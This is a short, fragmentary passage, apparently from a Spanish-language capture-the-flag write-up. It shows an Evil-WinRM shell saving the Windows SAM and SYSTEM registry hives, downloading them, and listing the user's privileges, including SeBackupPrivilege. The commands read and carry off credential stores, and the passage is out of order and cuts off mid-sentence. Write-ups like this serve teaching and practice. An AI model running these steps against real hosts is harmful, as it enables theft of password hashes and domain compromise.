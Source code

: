 ```csharp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        5/19/2022   9:18 PM                Temp

c*Evil-WinRM* PS C:\> cd Temp
*Evil-WinRM* PS C:\Temp> dir
*Evil-WinRM* PS C:\Temp> reg save hklm\sam c:\Temp\sam
The operation completed successfully.

*Evil-WinRM* PS C:\Temp> reg save hklm\system c:\Temp\system
The operation completed successfully.

*Evil-WinRM* PS C:\Temp> dir

    Directory: C:\Temp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/19/2022   9:19 PM          49152 sam
-a----        5/19/2022   9:19 PM       15925248 system

*Evil-WinRM* PS C:\Temp> download sam
Info: Downloading sam to ./sam

                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Temp> download system
Info: Downloading system to ./system

                                                             
Info: Download successful!
```

Dentro de toda la información que nos devuelve vemos que tenemos varios permisos con este usuario, entre ellos 

```csharp
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami /all

USER INFORMATION
----------------

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

